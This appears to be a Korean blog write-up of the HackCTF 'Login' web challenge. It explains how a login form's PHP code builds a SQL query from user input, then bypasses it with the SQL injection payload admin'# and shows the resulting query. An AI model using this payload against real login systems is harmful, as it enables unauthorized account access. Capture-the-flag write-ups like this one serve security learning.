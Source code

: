 ```yaml
---
title: '[HackCTF] Login'
date: 2022-03-06 00:00:00
categories: [Wargame, HackCTF]
tags: [hackctf, wargame, webhacking]
---
```


> \#web \#100pts


# 🚩 문제
---

![image](https://user-images.githubusercontent.com/37824335/222786190-dbce8ec8-c10b-411d-9626-c2873a000fde.png)

<br/>


# 🚩 문제 풀이
---
## 👁‍🗨 문제 파악

![image](https://user-images.githubusercontent.com/37824335/222786256-4f4a855b-22aa-4fb7-96d6-23451433f87e.png)

문제에서 제공한 링크로 들어가니 간단한 로그인 폼이 보였다.
**View Source**를 누르니

![image](https://user-images.githubusercontent.com/37824335/222786722-341e05b4-e559-4e30-8839-c20a945e7170.png){: w="700"}

위와 같은 php코드를 주었다. 코드를 해석해보면, 사용자에게 id와 pw를 입력받아 sql 쿼리문에 삽입한 후 데이터베이스에서 해당 정보를 꺼내와 배열에 할당하고 id에 해당하는 값이 존재하면 flag를 내뱉는 형태였다.

<br />

## 👁‍🗨 Exploit

단순한 **SQL Injection**으로 파악되었으나 DB에 어떤 id가 존재하는지를 모르는 상태였다. 그래서 admin 계정은 존재할 것 같아 Usename으로 `admin'#` 문자열을 삽입하였다.

```sql
# origin
select * from jhyenuser where binary id='$id' and pw ='$pw'

# SQL Injection
select * from jhyenuser where binary id='admin'#' and pw =''
```

<br>

위와 같이 쿼리문이 작성되었고 로그인을 시도하니

![image](https://user-images.githubusercontent.com/37824335/222787168-ad8bab38-a671-4095-9446-a471568d4790.png)

flag를 뱉었다!
